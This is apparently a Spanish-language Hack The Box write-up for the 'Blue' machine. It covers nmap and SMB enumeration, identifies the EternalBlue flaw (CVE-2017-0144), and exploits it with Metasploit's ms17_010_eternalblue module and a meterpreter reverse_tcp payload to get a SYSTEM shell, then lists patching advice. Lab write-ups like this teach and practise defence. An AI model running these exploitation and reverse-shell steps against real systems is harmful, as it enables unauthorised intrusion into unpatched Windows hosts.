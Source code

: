 ```yaml
---
{"dg-publish":true,"permalink":"/hack-the-box/maquinas/easy/blue/","dgPassFrontmatter":true,"noteIcon":""}
---
```


Empezamos realizando un escaneo de nmap

```
nmap -sCV 10.10.10.40 -T5 -oN blue_machine -v
```

![Pasted image 20250522000912.png](/img/user/Imagenes/Pasted%20image%2020250522000912.png)
Observamos que tenemos algunos puertos importantes como el 139 o 445.

Procederemos a hacer una enumeracion basica de smb con el objetivo de detectar el sistema operativo, nombre de host y dominio del equipo remoto.

```
nmap -p 139,445 --script=smb-os-discovery 10.10.10.40
```

![Pasted image 20250522001503.png](/img/user/Imagenes/Pasted%20image%2020250522001503.png)

Descubrimos que el hostname de Blue vienea ser 'haris-PC', tambien descubrimos que el sistema operativo corriendo en la maquina objetivo es **windows 7**.

Vamos a descubrir cuantos recursos compartidos hay en Blue.

```
nmap -p 445 --script=smb-enum-shares 10.10.10.40
```

Nos retorna lo siguiente, quiere decir que el puerto esta siendo filtrado por un firewall. Es decir, el paquete fue enviado, pero no recibio ninguna respuesta
![Pasted image 20250522002159.png](/img/user/Imagenes/Pasted%20image%2020250522002159.png)

Al igual con el puerto 139:

![Pasted image 20250522002327.png](/img/user/Imagenes/Pasted%20image%2020250522002327.png)

Si listamos con smbclient nos sale lo siguiente:
```
smbclient -L //10.10.10.40 -N
```

![Pasted image 20250522002414.png](/img/user/Imagenes/Pasted%20image%2020250522002414.png)

Pero por practica vamos a usar msfconsole:

- Empezaremos buscando modulos smb utiles:
```
	- search type:auxiliary smb
```

Veremos varios resultados, pero los mas utiles para enumeracion son:

- **auxiliary/scanner/smb/smb_enumshares**
- **auxiliary/scanner/smb/smb_enumusers**
- **auxiliary/scanner/smb/smb_version**
- **auxiliary/scanner/smb/smb_login** (si tienes credenciales)

## Enumerar recursos compatidos smb (shares)
Usaremos credenciales por defecto como por ejemplo: guest

- set RHOSTS 10.10.10.40
- set THREADS 5
- set SMBUser guest
- set SMBPass ""
- run

![Pasted image 20250522003301.png](/img/user/Imagenes/Pasted%20image%2020250522003301.png)

## Enumerar usuarios smb (users)

![Pasted image 20250522003642.png](/img/user/Imagenes/Pasted%20image%2020250522003642.png)

Aqui podemos ver que el usuario guest, no tiene permisos suficientes para poder enumerar usuarios, intentaremos con los usuarios.

## Como hemos encontrado recursos compartidos procederemos a ingresar

Para interactuar con los recursos compartidos usaremos smbclient:

```
smbclient //10.10.10.40/shares -N
```

Los unico recursos compartidos con los cuales podemos interactuar son dos: **Share** y **Users**

Intentamos con **Share**:

![Pasted image 20250522160800.png](/img/user/Imagenes/Pasted%20image%2020250522160800.png)

Intentamos con "Users"

![Pasted image 20250522004743.png](/img/user/Imagenes/Pasted%20image%2020250522004743.png)

Nada interesante el los recursos compartidos.

Investigando un poco, vemos que existe una vulnerabilidad llamada EternalBlue la cual afecta principalmente a versiones de Windows que tienen el servicio SMBv1 habilitado y sin parches. Fue explotada por el exploit EternalBlue, filtrado por el grupo Shadow Brokers en 2017, y se identifica como:

CVE-2017-0144

Los sisemas que son vulnerables a EternalBlue (si no tienen el parche):

- Windows XP
- Windows Vista
- Windows 7
- Windows 8 (menos comun, pero puede verse afectado)
- Windows Server 2003
- Windows Server 2008
- Windows Server 2012 (en cietas configuraciones con SMBv1)
- Windows 10 (anteriores a marzo de 2017, sin parche)

Que permite hacer EternalBlue?:
- Ejecucion remota de codigo (RCE) a traves del puerto 445/TCP (SMB).
- Se usa para obtener shells remotas sin autenticacion.
- Se popularizo en malware como WannaCry y NotPetya.

Recomendaciones para prevenir:
1. Deshabilitar SMBv1 si no es necesario.
2. Aplicar todos los parches de seguridad de Windows.
3. Bloquear el puerto 445/TCP en firewalls cuando sea posible.

Procedere a probar con un payload de nmap para verificar si esta maquina Windows 7 es vulnerable a EternalBlue.

```
nmap -p 445 --script smb-vuln-ms17-010 10.10.10.40
```

![Pasted image 20250522163445.png](/img/user/Imagenes/Pasted%20image%2020250522163445.png)

O tambien podemos usar el siguiente payload para enumerar vulnerabiliades conocidas en el SMB:

```
nmap -p 445 --script smb-vuln* 10.10.10.40
```

![Pasted image 20250522163652.png](/img/user/Imagenes/Pasted%20image%2020250522163652.png)

Algunos payloads extras:
- nmap -p 445 --script smb-enum-shares,smb-enum-users,smb-vuln* ip (escaneo combinado completo de SMB)
- nmap -p 445 --script smb-os-discovery,smb-protocols ip (verificar version de SMB y detalles del servidor)
- sudo nmap --script-updatedb (asegurarnos de que nmap tenga los scripts habilitados)

Una vez que hemos identificado la vulnerabilidad, usaremos msfconsole para explotarla.

Iniciamos el msfconsole:

- msfconsole

Cargamos el exploit:

- use exploit/windows/smb/ms17_010_eternalblue

Verificamos las opciones:

- show options

Establecemos la IP del objetivo:

- set RHOSTS 10.10.10.40

Seleccionamos el payload (por ejemplo, Meterpreter):

- set PAYLOAD windows/x64/meterpreter/reverse_tcp
Si el sismte es de 32 bits, usa: windows/meterpreter/reverse_tcp

En este casoo el payload que sirve es el de **x64**

![Pasted image 20250522164803.png](/img/user/Imagenes/Pasted%20image%2020250522164803.png)

Damos un **shell** en el meterpreter y tenemos nuestra consola de windows interactiva:

![Pasted image 20250522165214.png](/img/user/Imagenes/Pasted%20image%2020250522165214.png)


Para ver el usuario con el que se ejecuta el exploit usamos **whoami**: 

- nt authority\system

Para encontrar el user.txt nos vamos al usuario **haris**:

- type user.txt

![Pasted image 20250522165350.png](/img/user/Imagenes/Pasted%20image%2020250522165350.png)

Al igual para el root nos vamos a **Administrator**:

![Pasted image 20250522165441.png](/img/user/Imagenes/Pasted%20image%2020250522165441.png)

thansk.